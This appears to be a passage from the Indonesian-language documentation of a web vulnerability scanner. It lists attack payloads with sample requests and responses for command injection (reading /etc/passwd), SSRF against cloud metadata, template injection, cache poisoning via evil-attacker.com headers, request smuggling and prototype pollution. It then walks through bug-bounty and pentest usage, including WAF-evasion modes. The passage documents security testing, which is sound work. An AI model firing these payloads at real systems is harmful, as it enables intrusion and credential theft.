  ```bash
  ; id;
  | id
  `id`
  $(id)
  ; cat /etc/passwd #
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /diagnostic/ping?host=127.0.0.1%3B+id HTTP/1.1
  Host: target.com
  ```
- **Cuplikan HTTP Response:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/plain

  PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
  64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.031 ms
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
- **Marker yang Diharapkan:**
  Pencocokan regex terhadap identifier eksekusi shell POSIX: `uid=\d+\([a-zA-Z0-9_-]+\)\s+gid=\d+`. Jika command execution diblokir oleh WAF, `WAFBypass.encode_rce()` menyediakan varian `$'\x...'` dan IFS string concatenation.

---

### 10.5 Server-Side Request Forgery (SSRF)

SSRF memicu aplikasi target untuk melakukan panggilan HTTP ke endpoint internal atau cloud provider metadata service.

- **Payload Contoh:**
  ```text
  http://169.254.169.254/latest/meta-data/
  http://metadata.google.internal/computeMetadata/v1/
  http://127.0.0.1:8080/actuator/env
  http://[::1]:80/
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /proxy/fetch?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
  Host: target.com
  ```
- **Cuplikan HTTP Response:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/plain

  ami-id
  ami-launch-index
  iam/
  instance-id
  local-ipv4
  public-keys/
  ```
- **Logika Deteksi:**
  Engine memeriksa keberadaan AWS metadata token headers, IAM role endpoints, atau respons status internal yang membocorkan service infrastruktur lokal. Untuk blind SSRF, `OOBDetector` menyuntikkan endpoint kolaborator unik OAST (`interactsh`) dan memonitor DNS/HTTP callbacks.

---

### 10.6 Server-Side Template Injection (SSTI)

SSTI terjadi ketika input pengguna dirender secara langsung sebagai sintaks mesin template (seperti Jinja2, Twig, Smarty, atau Freemarker).

- **Payload Contoh:**
  ```text
  {{1337*7331}}
  ${1337*7331}
  #{1337*7331}
  <%= 1337*7331 %>
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /render/preview?template=%7B%7B1337*7331%7D%7D HTTP/1.1
  Host: target.com
  ```
- **Cuplikan HTTP Response:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html

  <div class="result">9801547</div>
  ```
- **Verifikasi Matematika:**
  Engine menyuntikkan operasi aritmatika spesifik $1337 \times 7331$. Scanner memvalidasi apakah string `9801547` muncul di respons tanpa keberadaan literal `{{` atau `1337*7331`. Jika kalkulasi berhasil dieksekusi di server, kerentanan terkonfirmasi.

---

### 10.7 Web Cache Poisoning

Cache Poisoning mengeksploitasi perbedaan pemrosesan antara reverse proxy caching layer dan back-end web server dengan menyuntikkan header yang tidak masuk ke dalam cache key (unkeyed headers).

- **Payload Contoh:**
  ```http
  X-Forwarded-Host: evil-attacker.com
  X-Host: evil-attacker.com
  X-Original-URL: /admin
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /assets/main.js HTTP/1.1
  Host: target.com
  X-Forwarded-Host: evil-attacker.com
  ```
- **Cuplikan HTTP Response (Tercache):**
  ```http
  HTTP/1.1 200 OK
  Cache-Control: public, max-age=3600
  X-Cache: HIT
  Age: 12

  import { init } from "https://evil-attacker.com/lib/app.js";
  ```
- **Logika Deteksi:**
  Modul mengirimkan request berheader unkeyed yang unik, lalu melakukan request kedua tanpa header tersebut dari IP/koneksi terpisah untuk memeriksa apakah header `X-Cache: HIT` mengembalikan konten refleksi yang diracuni.

---

### 10.8 HTTP Request Smuggling (HRS)

Ketidaksesuaian interpretasi batas request antara front-end proxy (`Content-Length`) dan back-end server (`Transfer-Encoding`), atau sebaliknya, diuji menggunakan modul `WAFBypass.h2_smuggle_check()`.

#### A. CL-TE Discrepancy
- **Contoh Request Payload:**
  ```http
  POST / HTTP/1.1
  Host: target.com
  Content-Length: 6
  Transfer-Encoding: chunked

  0

  G
  ```
  *(Front-end membaca 6 bytes sampai `0\r\n\r\n`, back-end membaca chunked header awal `0`, meninggalkan karakter `G` sebagai awalan request user berikutnya).*

#### B. TE-CL Discrepancy
- **Contoh Request Payload:**
  ```http
  POST / HTTP/1.1
  Host: target.com
  Content-Length: 4
  Transfer-Encoding: chunked

  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15

  x=1
  0


  ```
- **Logika Deteksi:**
  Engine menguji apakah target merespons dengan timeout, penundaan eksekusi yang abnormal (408 Request Timeout), atau jika request lanjutan menerima 404/405 tidak terduga akibat penyelundupan prefix request sebelumnya.

---

### 10.9 DOM XSS (Browser-based)

Berbeda dengan Reflected XSS berbasis regex teks, DOM XSS browser-based dievaluasi langsung di dalam runtime DOM Chromium headless menggunakan Playwright.

- **Vulnerable Code di Target Client:**
  ```javascript
  const params = new URLSearchParams(window.location.search);
  const redirectUrl = params.get("target");
  document.getElementById("nav-link").innerHTML = "<a href='" + redirectUrl + "'>Lanjut</a>";
  ```
- **Injeksi Payload:**
  ```text
  https://target.com/dashboard#target='>
  ```
- **Mekanisme Sink Hooking via Playwright:**
  Modul menyuntikkan script pre-eksekusi (`page.add_init_script`) yang memasang proxy wrapper pada sensitive JavaScript sinks:
  ```javascript
  const originalInnerHTML = Object.getOwnPropertyDescriptor(Element.prototype, 'innerHTML').set;
  Object.defineProperty(Element.prototype, 'innerHTML', {
      set: function(val) {
          if (val.includes("alert(1)") || val.includes("onerror=")) {
              window.__DOM_XSS_DETECTED__ = { sink: "innerHTML", val: val };
          }
          return originalInnerHTML.apply(this, arguments);
      }
  });
  ```
  Jika flag `window.__DOM_XSS_DETECTED__` bernilai true setelah halaman mencapai event `networkidle`, kerentanan DOM XSS dikonfirmasi dengan zero false-positive.

---

### 10.10 Prototype Pollution

Prototype Pollution mengeksploitasi penggabungan objek JavaScript secara rekursif tanpa validasi terhadap properti khusus Object prototype.

- **Injeksi URL/JSON Payload:**
  ```text
  https://target.com/app?__proto__[polluted]=true&constructor[prototype][isAdmin]=true
  ```
- **Cuplikan Runtime Browser Verification:**
  Playwright mengevaluasi modifikasi prototype secara dinamis pada context halaman:
  ```javascript
  await page.goto(targetUrlWithPayload, { waitUntil: "networkidle" });
  const isPolluted = await page.evaluate(() => {
      return ({}).polluted === true || Object.prototype.isAdmin === true;
  });
  ```
- **Hasil:**
  Bila objek kosong baru `({}).polluted` mewarisi nilai `true`, engine memvalidasi keberadaan Client-Side Prototype Pollution yang dapat dieskalasi menjadi DOM XSS atau logic bypass.

---

## 11. Real-World Scenarios

Berikut adalah panduan walkthrough langkah-demi-langkah penerapan Verdamt-Snipe pada tiga skenario operasional dunia nyata.

### 11.1 Bug Bounty: Full Recon to Report

Skenario pemburu bug bounty yang menargetkan program publik dengan cakupan luas (wildcard scope `*.target.com`).



#### Langkah-demi-Langkah:

1. **Definisi Scope & Setup Wordlist:**
   Unduh wordlist terkurasi sebelum penyerangan:
   ```bash
   python3 verd.py --setup-wordlists
   ```

2. **Reconnaissance Luas (Phase 0 & 1):**
   Kumpulkan subdomain aktif, layanan web, dan endpoint histori URL:
   ```bash
   python3 verd.py target.com --recon --turbo --audit-log outputs/audit_recon.jsonl
   ```
   *Hasil:* File state `outputs/target.com.state` dibuat dan menyimpan ratusan URL valid beserta temuan kebocoran API key pada file JavaScript.

3. **Application Analysis & SPA Discovery (Phase 2):**
   Jalankan crawling mendalam dan ekstraksi parameter form/URL:
   ```bash
   python3 verd.py --resume outputs/target.com.state --app
   ```
   *Hasil:* Browser headless Chromium mengekstrak rute frontend SPA dan mengidentifikasi parameter tersembunyi dengan Arjun-style bruteforcer.

4. **Targeted Vulnerability Assault (Phase 3):**
   Lakukan pengujian kerentanan dengan rate-limiting adaptif:
   ```bash
   python3 verd.py --resume outputs/target.com.state --assault
   ```

5. **Verifikasi Temuan & Submisi Laporan:**
   Buka file laporan HTML interaktif untuk menyalin request/response PoC:
   ```bash
   xdg-open outputs/target.com_report.html
   ```
   Gunakan file PDF yang siap cetak (`outputs/target.com_report.pdf`) sebagai lampiran resmi triager HackerOne atau Bugcrowd.

---

### 11.2 Corporate Penetration Test

Skenario uji penetrasi perusahaan berjadwal dengan kepatuhan tinggi (Rules of Engagement / RoE ketat, batasan port, limitasi request, dan wajib proxy egress).

#### Langkah-demi-Langkah:

1. **Penyusunan Scope Guard & Proxy Egress:**
   Audit perusahaan sering kali mengharuskan seluruh lalu lintas scanner melewati proxy audit (misalnya Burp Suite Professional di port 8080) dan tidak boleh melampaui host resmi.
   ```bash
   # Menjalankan dry-run untuk validasi konfigurasi tanpa mengirimkan paket
   python3 verd.py internal.corp.com \
     --dry-run \
     --proxy http://127.0.0.1:8080 \
     --allowed-hosts internal.corp.com,api.corp.com \
     --allowed-ports 443 \
     --max-requests 5000 \
     --audit-log outputs/audit_corp.jsonl
   ```

2. **Passive Reconnaissance (Zero-Disruption):**
   Eksekusi fase pengumpulan intel secara pasif tanpa payload invasif:
   ```bash
   python3 verd.py internal.corp.com \
     --recon \
     --passive \
     --proxy http://127.0.0.1:8080 \
     --allowed-hosts internal.corp.com,api.corp.com
   ```

3. **Active Assessment Terkendali:**
   Lakukan testing kerentanan dengan membatasi konkurensi agar server tidak kelebihan beban:
   ```bash
   python3 verd.py internal.corp.com \
     --assault \
     --max-concurrency 5 \
     --max-requests 3000 \
     --proxy http://127.0.0.1:8080 \
     --impersonate chrome124 \
     --audit-log outputs/audit_corp_active.jsonl
   ```

4. **Forensik & Replay Audit Log:**
   Jika tim SOC internal meminta justifikasi atas request tertentu, gunakan modul audit replay untuk menghasilkan curl command instan:
   ```bash
   python3 -m core.audit outputs/audit_corp_active.jsonl -q "/admin"
   ```

5. **Penyerahan Laporan PDF Eksekutif:**
   Laporan otomatis digenerate via WeasyPrint dengan format standar OWASP Top 10 dan matriks CVSS 3.1:
   ```bash
   cp outputs/internal.corp.com_report.pdf /client_deliverables/PenTest_Report_InternalCorp.pdf
   ```

---

### 11.3 SPA OAuth Security Review

Skenario peninjauan keamanan Single Page Application modern (React/Vue) yang mengandalkan OAuth 2.0 / OpenID Connect dan penyimpanan token di browser client.



#### Langkah-demi-Langkah:

1. **Setup Otomasi Browser SPA:**
   Pastikan Playwright Chromium terinstal untuk headless reconnaissance:
   ```bash
   playwright install chromium
   ```

2. **Ekstraksi Token & Analisis Sesi Pengguna:**
   Gunakan kredensial pengujian yang disiapkan melalui flag file rahasia (agar terhindar dari history shell dan `ps` process snooping):
   ```bash
   echo "ey..." > /tmp/user1.jwt
   echo "ey..." > /tmp/user2.jwt

   python3 verd.py https://app.target.com \
     --app \
     --bearer-file /tmp/user1.jwt \
     --bearer-file-2 /tmp/user2.jwt
   ```

3. **Audit Rantai Redirect OAuth & Injeksi Token:**
   Modul `BrowserRecon` mengotomatisasi:
   - Intersepsi request keluar (`page.route("**/*")`) untuk mencatat transmisi parameter `redirect_uri` dan validasi token `state`.
   - Pemeriksaan kebocoran token ke pihak ketiga via `Referer` header.
   - Pengecekan implementasi PKCE (`code_challenge` dan `code_verifier`).

4. **Verifikasi Origin Refleksi CORS:**
   Engine baseline memeriksa apakah domain OAuth provider memperbolehkan Origin arbitrary:
   ```http
   Origin: https://evil-attacker.com
   ```
   Jika response mengembalikan `Access-Control-Allow-Origin: https://evil-attacker.com` dan `Access-Control-Allow-Credentials: true`, eksfiltrasi JWT dari browser dapat dilakukan.

5. **Pengujian Delta Otorisasi:**
   Dengan menyediakan dua konteks token (`--bearer-file` dan `--bearer-file-2`), `APIProfiler` secara otomatis memetakan endpoint yang rentan terhadap BOLA/IDOR antar pengguna.

---

## 12. Benchmark Guide

Verdamt-Snipe v1.4.5 NEXUS dirancang dengan engine asinkron berperforma tinggi yang mampu mencapai ribuan request per detik tanpa mengorbankan stabilitas target.

### 12.1 Mengukur Performa Scan

Untuk melakukan benchmark throughput pada instalasi lokal atau target uji lab (misalnya Juice Shop atau DVWA):

```bash
# Uji kecepatan penuh (Mode Assault Turbo)
time python3 verd.py http://test-target.local --assault --turbo --max-requests 5000
```

Metrik utama yang dicatat di dashboard TUI (Rich 15 FPS):
- **RPS (Requests Per Second):** Kecepatan throughput HTTP/2 aktif.
- **Latency Median & P95:** Waktu respons server (digunakan oleh engine backoff).
- **Error Rate:** Persentase kode status 429 atau 5xx.

### 12.2 Tuning Parameter: Speed vs. Stealth

Gunakan kombinasi opsi berikut sesuai dengan kebutuhan operasi:

| Skenario | Flag yang Direkomendasikan | Karakteristik Operasi |
|----------|----------------------------|-----------------------|
| **Maximum Speed** (CTF / Lab) | `--turbo --max-concurrency 50` | Concurrency maksimal, no sleep jitter, throttling nonaktif. |
| **Balanced** (Bug Bounty) | *(Default settings)* | Concurrency 25, adaptive rate limiting, pemulihan otomatis jika kena 429. |
| **High Stealth** (WAF Evasion / Red Team) | `--stealth --impersonate chrome124 --max-concurrency 3` | Random delay (jitter), rotasi header realistis, TLS JA3/JA4 fingerprinting via `curl_cffi`. |
| **Strict Compliance** (Corporate Audit) | `--max-requests 2000 --max-concurrency 5 --audit-log audit.jsonl` | Batas kuota request terjamin, log forensik lengkap. |

### 12.3 Tips Optimasi Memori & CPU

1. **Penggunaan Browser Playwright:**
   Eksekusi headless Chromium memakan memori ~150-300 MB per tab. Verdamt-Snipe menggunakan `SharedBrowserPool` untuk membatasi browser context secara efisien. Jika Anda memindai pada mesin dengan RAM 2 GB, jalankan `--recon` atau `--assault` tanpa `--app` untuk menghemat alokasi browser.
2. **Streaming Audit Log:**
   Logger audit menulis secara streaming berbasis `.jsonl` tanpa memuat seluruh riwayat request ke dalam RAM.
3. **HTTP/2 Connection Multiplexing:**
   Engine `httpx` memanfaatkan koneksi multiplexing HTTP/2 secara native, menghemat socket TCP dan handshake TLS pada target yang mendukung HTTP/2.

> [!TIP]
> Untuk hasil pengujian benchmark komparatif mendalam, benchmark perbandingan concurrency, dan perbandingan performa antar versi, silakan rujuk dokumen lengkap di [BENCHMARKS.md](file:///home/oblivion/verdamt-snipe/BENCHMARKS.md).

